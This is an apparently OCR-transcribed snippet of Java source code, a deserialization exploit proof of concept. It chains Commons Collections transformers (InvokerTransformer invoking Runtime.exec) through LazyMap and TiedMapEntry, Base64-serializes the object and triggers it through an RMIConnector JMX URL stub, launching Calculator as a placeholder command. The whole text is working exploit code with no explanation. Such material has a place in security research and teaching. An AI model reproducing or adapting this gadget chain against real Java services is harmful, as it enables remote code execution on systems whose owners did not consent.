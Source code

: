 ```bash


    public static void main(String[] args) throws Exception {

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class}, new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"open -a Calculator"})} ;

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        HashMap<Object, Object> map = new HashMap<>();
        Map<Object,Object> lazyMap = LazyMap.decorate(map,new ConstantFactory(1));


        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "aa");

        HashMap<Object, Object> map2 = new HashMap<>();
        map2.put(tiedMapEntry, "bbb");
        lazyMap.remove("aa");

        Class c = LazyMap.class;
        Field factoryfield = c.getDeclaredField("factory");
        factoryfield.setAccessible(true);
        factoryfield.set(lazyMap,chainedTransformer);

        String s = serialize2Base64(map2);
        run(s);
//        unserialize("ser.bin");

    }


    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static String serialize2Base64(Object object) throws Exception {
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(object);
        String s = Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
        return s;
    }

    public static void run(String base64) throws Exception{
        JMXServiceURL jmxServiceURL = new JMXServiceURL("service:jmx:rmi://");
        setFieldValue(jmxServiceURL, "urlPath", "/stub/"+base64);
        RMIConnector rmiConnector = new RMIConnector(jmxServiceURL, null);
        rmiConnector.connect();

    }

}
```
